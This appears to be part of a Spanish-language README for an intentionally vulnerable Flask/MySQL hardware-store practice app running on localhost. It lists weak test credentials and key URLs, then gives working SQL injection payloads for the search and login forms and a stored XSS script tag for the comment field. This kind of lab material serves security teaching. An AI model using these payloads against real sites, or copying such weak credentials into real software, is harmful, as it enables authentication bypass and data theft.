 ### Acceso Web:
- **URL Principal:** http://localhost
- **Puerto Flask:** 80 
- **Puerto MySQL:** 3306

### Credenciales de Prueba:

| Usuario | Contraseña | Rol |
|---------|------------|-----|
| `admin` | `admin123` | Administrador |
| `juan` | `ferreteria2024` | Empleado |
| `test` | `test` | Cliente |

### URLs Importantes:
- **Inicio:** http://localhost/
- **Catálogo:** http://localhost/catalogo
- **Login:** http://localhost/login
- **Comentarios:** http://localhost/comentarios
- **Admin Panel:** http://localhost/admin
- **Upload:** http://localhost/upload
- **Debug (VULNERABLE):** http://localhost/debug

## 🔍 Vulnerabilidades y Exploits

### 1. SQL Injection en Búsqueda:
```
URL: http://localhost/catalogo?search=' OR 1=1 --
Payload: ' OR 1=1 --
Resultado: Muestra todos los productos
```

```
URL: http://localhost/catalogo?search=' UNION SELECT 1,version(),3,4,5,6,7,8 --
Payload: ' UNION SELECT 1,version(),3,4,5,6,7,8 --
Resultado: Muestra versión de MySQL
```

### 2. SQL Injection en Login:
```
Usuario: admin' --
Contraseña: cualquier_cosa
Resultado: Bypass de autenticación
```

### 3. XSS Stored en Comentarios:
```
Campo comentario: <script>alert('XSS en Ferreterías Juan')</script>
Resultado: Ejecución de JavaScript al ver comentarios
```
